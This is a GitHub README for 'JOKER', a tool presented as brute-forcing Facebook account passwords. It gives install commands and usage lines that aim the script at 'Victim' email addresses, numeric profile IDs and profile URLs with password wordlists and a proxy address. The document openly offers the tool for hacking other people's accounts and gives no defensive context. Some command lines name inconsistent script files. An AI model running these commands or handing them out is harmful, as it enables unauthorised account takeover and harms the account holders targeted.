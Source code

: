 ## Find Fikrado on :
[![Github](https://img.shields.io/badge/Github-fikrado-yellow?style=for-the-badge&logo=github)](https://github.com/fikrado)
[![Instagram](https://img.shields.io/badge/IG-%40mr__yahye-red?style=for-the-badge&logo=instagram)](https://www.instagram.com/mr__yahe)
[![Messenger](https://img.shields.io/badge/telegram-blue?style=for-the-badge&logo=telegram)](https://t.me/fikrado_hacker)
[![Facebook](https://img.shields.io/badge/facebook-black?style=for-the-badge&logo=Facebook)](https://facebook.com/fikrado4048063)

# JOKER FACEBOOK BRUTAL FORCE ATTACK

### THIS TOOL IS FACEBOOK HACKING WITH BRUTAL FORCE CREATE BY FIKRADO THE SOMALI HACKERS ORGANIZATION IN EAST AFRICA 



## HOW TO INSTALL JOKER BURTAL FORCE
```
apt update

apt install git -y

pkg install python python2 && pip2 install requests mechanize

git clone https://github.com/fikrado/JOKER-burtal-force

cd JOKER-burtal-force

python joker.py

```
### 


## HOW TO USE JOKER BRUTAL FORCE



###

```
      python joker.py -t Victim@gmail.com -w /usr/share/wordlists/rockyou.txt
   
      python joker.py -t 100001013078780 -w C:\\Users\\Me\\Desktop\\wordlist.txt
     
      python jokere.py -t Victim@hotmail.com -w D:\\wordlist.txt -p 144.217.101.245:3129-
      
      python jokery.py -t Victim@gmail.com -s 1234567
     
      python joker.py -g https://www.facebook.com/Victim_Profile
     
```
###

<img src="/itl.cat_joker-wallpaper-4k_3130186.png (1).jpg">
